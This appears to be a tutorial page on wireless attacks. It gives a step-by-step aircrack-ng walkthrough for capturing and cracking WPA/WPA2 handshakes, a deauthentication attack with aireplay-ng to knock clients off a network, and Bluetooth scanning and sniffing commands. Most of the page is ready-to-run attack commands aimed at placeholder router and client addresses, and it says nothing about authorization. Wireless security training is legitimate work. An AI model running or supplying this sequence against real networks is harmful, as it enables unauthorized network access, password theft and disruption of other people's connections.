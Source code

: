 **Objectives**

- Discover and analyze Wi-Fi networks
- Use aircrack-ng for WPA/WPA2 cracking
- Perform Bluetooth reconnaissance
- Capture a WPA handshake for offline cracking
  
**Lessons**

## 1. Wi-Fi Scanning & Cracking (aircrack-ng)

Step 1: Enable Monitor Mode

    sudo airmon-ng check kill   # Kill interfering processes  
    sudo airmon-ng start wlan0  # Enable monitor mode (creates wlan0mon)  

Step 2: Scan for Networks

    sudo airodump-ng wlan0mon  
    Lists BSSID (MAC), channel, encryption type (WEP/WPA/WPA2).

Step 3: Capture Handshake

    sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon  

    -c 6 → Channel

    --bssid → Target router MAC

    -w capture → Save to file

Step 4: Force Handshake (Deauth Attack)

    sudo aireplay-ng -0 4 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon  

    -0 4 → Send 4 deauth packets

    -a → AP MAC

    -c → Client MAC

Step 5: Crack Handshake

    sudo aircrack-ng -w rockyou.txt capture-01.cap  

    Uses wordlist (rockyou.txt) to crack the password.

## 2. Bluetooth Reconnaissance
   
Scan for Devices:

    sudo hcitool scan  

Deeper Scan (L2Ping):

    sudo l2ping -c 4 AA:BB:CC:DD:EE:FF  

Bluetooth Sniffing (Ubertooth)

    ubertooth-btle -f -r capture.pcap  
